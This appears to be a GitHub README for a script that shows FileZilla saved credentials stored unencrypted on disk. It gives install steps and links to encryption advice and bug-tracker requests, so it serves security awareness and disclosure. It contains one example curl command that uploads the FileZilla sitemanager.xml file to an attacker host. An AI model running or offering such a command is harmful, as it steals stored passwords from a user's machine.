 # Filezilla passwords revealer

![Output of the script](https://i.gyazo.com/877d83a9801fff3c0c39a82df42b921c.png)

This is a small script to demonstrate that the Filezilla credentials are stored **unencrypted** on the local drive and that any program, malware, or even node module running on your machine can trivially access them.  

A single bash command is enough! `curl -F "credentials=@~/.filezilla/sitemanager.xml" attacker.com/credentials.php
` reads the local preference file and uploads it to a remote website.

This script should work with Windows, Linux and Mac. Please [open an issue](https://github.com/christophetd/filezilla-passwords-revealer/issues/new) otherwise.
### Running

- Clone this repository
- `npm install`
- `node index.js`

Or simply copy paste this script in your terminal

```
git clone https://github.com/christophetd/filezilla-passwords-revealer.git
cd filezilla-passwords-revealer
npm install
node index.js
```

Disclaimer: copy pasting bash commands in your terminal [is a terrible practice](https://thejh.net/misc/website-terminal-copy-paste) security-wise

### Resources

- « *[Making FileZilla FTP Client's passwords more secure with TrueCrypt](http://www.trailheadinteractive.com/making_filezilla_ftp_client039s_passwords_more_secure)* ». Note that you should use [VeraCrypt](https://veracrypt.codeplex.com/) instead of TrueCrypt since the latter is now deprecated.
- Some of the numerous feature requests on the official bug tracker : [#5530](https://trac.filezilla-project.org/ticket/5530), [#2935](https://trac.filezilla-project.org/ticket/2935), [#3176](https://trac.filezilla-project.org/ticket/3176)
